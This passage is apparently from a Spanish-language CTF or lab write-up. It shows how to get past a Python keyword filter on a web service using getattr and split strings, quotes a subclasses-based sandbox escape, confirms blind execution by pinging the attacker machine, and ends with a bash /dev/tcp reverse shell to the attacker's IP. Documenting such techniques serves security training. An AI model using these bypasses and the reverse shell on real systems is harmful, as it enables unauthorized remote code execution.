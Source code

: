 ### Uso de getattr para evadir restricciones en Python

La función incorporada getattr(objeto, nombre atributo) en Python permite acceder dinámicamente a los atributos o métodos de un objeto usando el nombre del atributo como una cadena. Este comportamiento es especialmente útil para evadir filtros y restricciones que bloquean el acceso directo a funciones o métodos sensibles. En entornos con mecanismos de seguridad que detectan y bloquean llamadas explı́citas a funciones peligrosas (por ejemplo, os.system), getattr puede ser usada para ocultar la intención real del código. Como en el siguiente código:

```python
test = getattr(print.__self__, '__im' + 'port__') ('o' + 's')
getattr(test, 'sy' + 'stem')( 'whoami')
```

Otro método efectivo para evadir restricciones en entornos Python está explicado en un 
<a href="https://medium.com/soulsecteam/some-simple-bypass-tricks-8f02455b098d" 
   class="text-blue-500 font-bold underline hover:text-blue-700 transition">
   artículo publicado en Medium
</a>. A continuación, se presenta el fragmento de código descrito en dicho artículo:


```python
[w for w in 1..__class__.__base__.__subclasses__() if w.__name__=='Quitter'][0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']('ls')
```

#### Ejecución de comandos en el sistema

Esto nos permitirá ejecutar comandos de shell sin utilizar palabras clave prohibidas como **≪import≫** u **≪os≫** directamente, utilizando la concatenación de cadenas, es decir, **≪o≫** + **≪s≫**. Sin embargo, tras ejecutar el código, no vemos ningún resultado. Esto sugiere que, aunque el código se esté ejecutando en el host, el resultado no se está devolviendo al frontend. Para verificar si se está ejecutando en el host, modificaremos nuestro enfoque e intentaremos redirigir el resultado a nuestra máquina utilizando un sencillo listener con el comando **tcpdump** para capturar la respuesta del comando **ping** ejecutado desde el servicio web.

```python
test = getattr(print.__self__, '__im' + 'port__') ('o' + 's')
getattr (test, 'sy' + 'stem')('ping -c 1 10.10.x.x')
```

Ejecución del código python en la web:

[![Código python en la web](/code/payload2.png)](/code/payload2.png)

Recibimos respuesta por parte del servido al ejecutar el comandon **ping**:

[![Respuesta del comando ping](/code/term1.png)](/code/term1.png)

Seguidamente ejecutaremos el siguiente código en el servicio web para obtener una **shell inversa** mediante **Netcat**:

```python
test = getattr(print.__self__, '__im' + 'port__')('o' + 's')
getattr(test, 'sy' + 'stem')('bash -c "bash -i >& /dev/tcp/10.10.x.x/443 0>&1" ')
```
Y ejecutamos en nuestra máquina de atacante **Netcat** en el puerto que especificamos en el comando anterior:

